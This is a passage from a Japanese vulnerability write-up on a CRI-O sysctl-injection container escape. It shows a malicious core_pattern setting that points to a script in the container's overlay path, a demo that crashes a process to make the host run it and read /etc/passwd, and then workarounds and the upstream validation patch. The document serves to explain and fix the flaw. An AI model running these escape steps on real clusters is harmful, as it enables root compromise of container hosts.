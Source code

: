 ```
|/var/lib/containers/storage/overlay/4ca77e9bde5220c9b0b54d57f41e56cbed6e873cd5ad67dbcdf43bc3cca1766f/diff/cmd #'
```

プロセスを異常終了させることで Coredump の機能を呼び出し、core_pattern に書き込んだプログラムを実行させる

```
root@d33614f0b22d:/# tail -f /dev/null &
[1] 17
root@d33614f0b22d:/# ps
    PID TTY          TIME CMD
      4 pts/0    00:00:00 bash
     17 pts/0    00:00:00 tail
     18 pts/0    00:00:00 ps
root@d33614f0b22d:/# kill -SIGSEGV 17
root@d33614f0b22d:/# ls /
bin  boot  cmd  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  output  proc  root  run  sbin  srv  sys  tmp  usr  var
[1]+  Segmentation fault      (core dumped) tail -f /dev/null
root@d33614f0b22d:/# cat /output 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
...
```

## 回避策

- CRI-O のアップデート (非推奨だが v1.18 以下へのダウングレードも可)
- OPA 等のポリシーを設定する
- PSP で sysctls を全てブロックする
- pinns の `-s` を除去するラッパーを用意し、crio.conf の pinns_path に設定する

##　修正パッチ

### internal/config/nsmgr/nsmgr.go

https://github.com/cri-o/cri-o/commit/05c443b06356c2dbf9d30060f362279c6b8ac1a1

`+` に対してバリデーションを追加

```go
  func (mgr *NamespaceManager) NewPodNamespaces(cfg *PodNamespacesConfig) ([]Namespace, error) {
    ...
  
    if len(cfg.Sysctls) != 0 {
-     pinnsArgs = append(pinnsArgs, "-s", getSysctlForPinns(cfg.Sysctls))
+     pinnsSysctls, err := getSysctlForPinns(cfg.Sysctls)
+     if err != nil {
+       return nil, errors.Wrapf(err, "invalid sysctl")
+     }
+     pinnsArgs = append(pinnsArgs, "-s", pinnsSysctls)
    }
  
    ...
  }

- func getSysctlForPinns(sysctls map[string]string) string {
-   // this assumes there's no sysctl with a `+` in it
+ func getSysctlForPinns(sysctls map[string]string) (string, error) {
```